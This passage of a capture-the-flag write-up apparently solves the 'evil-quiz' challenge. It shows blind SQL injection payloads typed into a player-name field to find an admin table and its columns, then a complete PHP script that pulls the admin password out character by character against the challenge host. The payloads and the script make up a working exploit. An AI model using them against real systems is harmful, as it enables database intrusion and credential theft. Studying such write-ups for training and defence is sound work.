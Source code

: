 now to guess columns for table admin
- name `admin' and ((select 1 from information_schema.columns where table_name='admin' and column_name='username' limit 0,1)=1)-- -` returns `There is 67 other player(s) with the same name as you!`
- name `admin' and ((select 1 from information_schema.columns where table_name='admin' and column_name='password' limit 0,1)=1)-- -` returns `There is 67 other player(s) with the same name as you!`

so table admin with username and password columns, 

- name `admin' and ((select 1 from admin where username='admin' limit 0,1)=1)-- -` returns `There is 67 other player(s) with the same name as you!`
first record in table admin has username='admin' :)

only his password to fetch now, this cannot be guessed and will be painful manually
so i did the following script to automate the extraction, it's not perfect but it does the job,
we can use same session to go through setting a name and fetching score page, we only have to fill the quiz manually first time manually and we use that session inside this solver

* made the comparaison with hex value to avoid case insensitivity 

```PHP
<?php
$str = "";
for($j=1;$j<20;$j++){
    for($i=32;$i<128;$i++){
        $abc = "(select%20hex(substr(password,".$j.",1))%20from%20admin%20limit%200,1)=%27".dechex($i)."%27";
        if(dosql($abc)=='There is 1 other player(s) with the same name as you!'){
            $str .=chr($i);
            echo $str."\n";
            break;
        }
    }
}
function dosql($str){
    get_url("https://hackyholidays.h1ctf.com/evil-quiz","session=6abf0c2ba645d92e07859120434031a5","name=-2223232323'union select 1,2,3,4 from information_schema.tables WHERE ".$str."-- -");
    $kk= get_url("https://hackyholidays.h1ctf.com/evil-quiz/score","session=6abf0c2ba645d92e07859120434031a5")['html'];
    preg_match("/<div style=\"margin-top\:20px\">(.*?)<\/div>/", $kk,$ma);
    return @$ma[1];
}
function get_url($url,$cookie="",$post="") {
    $curl = curl_init();
    curl_setopt($curl, CURLOPT_URL, $url);
    if( !empty($post) ) {
        curl_setopt($curl, CURLOPT_POST, 1);
        curl_setopt($curl, CURLOPT_POSTFIELDS, $post);
    }
    curl_setopt($curl, CURLOPT_SSL_VERIFYPEER, false);
    curl_setopt($curl, CURLOPT_COOKIE, $cookie);
    curl_setopt($curl, CURLOPT_RETURNTRANSFER, 1);
    curl_setopt($curl, CURLOPT_FOLLOWLOCATION, 1);
    curl_setopt($curl, CURLOPT_TIMEOUT,60);
    $html = curl_exec($curl);
    $info = curl_getinfo($curl);
    $error = '';
    if( $html === false ) {
        $error = 'Curl error: ' . curl_error($curl);
    }               
    curl_close($curl);
    $arr = array();
    $arr['html'] = $html;
    $arr['info'] = $info;
    $arr['error'] = $error;
    return $arr;    
}
```
